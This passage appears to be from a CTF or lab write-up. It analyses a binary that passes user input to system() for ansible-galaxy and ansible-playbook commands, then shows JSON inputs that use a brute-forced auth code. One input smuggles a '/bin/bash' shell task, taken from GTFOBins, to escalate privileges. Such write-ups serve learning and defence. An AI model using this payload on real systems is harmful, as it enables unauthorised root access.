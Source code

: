### installRole class

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Eb_kRdZ8R79x0NMjGY_LHQ.png)

1. The function takes one parameter, `param_1`, which presumably is the path to the tar archive file containing the Ansible role.
2. It first checks if the provided file is a valid tar archive by calling the `isTarArchive` function. If it returns 0 (indicating that the file is not a valid tar archive), the function prints an error message stating "Invalid tar archive" to the standard error stream ( ).
3. If the file is a valid tar archive, the function constructs a command string using `snprintf` to format the command. It combines the path to the `ansible-galaxy` executable (`/usr/bin/ansible-galaxy`) with the `"install"` action and the path to the tar archive file (`param_1`).
4. The constructed command string is then executed using the `system` function, which runs the command in the shell.

### runPlaybook class
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*ZmZXtRuUgev5t2s8f6aj-A.png)

1. It constructs a command string using `snprintf`. This command string combines the path to the `ansible-playbook` executable (`/usr/bin/ansible-playbook`), an inventory file (`/opt/playbooks/inventory.ini`), and the path to the playbook file (`/opt/playbooks/` concatenated with `param_1`).
2. The constructed command string is then executed using the `system` function, which runs the command in the shell.

### After analysis

This application processes a JSON file with two parameters: `role_file` and `auth_code`. It expects a top-level key `run`. If missing or invalid, it returns an error. Valid `run` keys trigger checks for associated `action` keys. If `list`, it lists playbooks; if `run`, it verifies an authentication code and executes a playbook; if `install`, it installs a specified role.

The `auth_code` parameter is obtained through brute-forcing earlier.

**1. First trying the list role with the auth code But unfortunately invain.**

```json
//list.json

{
  "run": {
    "action": "list",
    "auth_code": "UHI75GHINKOP",
  }
}
```

**2. Second option is to try run role, after some research I found this on [GTFOBins](https://gtfobins.github.io/)**

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1huUcpPJiKyS6IYrYY_CSw.png)
_https://gtfobins.github.io/gtfobins/ansible-playbook/_

```json
//run.json

{
  "run": {
    "action": "run",
    "auth_code": "UHI75GHINKOP",
    "tasks": [
      {
        "shell": "/bin/bash </dev/tty >/dev/tty 2>/dev/tty"
      }
    ]
  }
}
```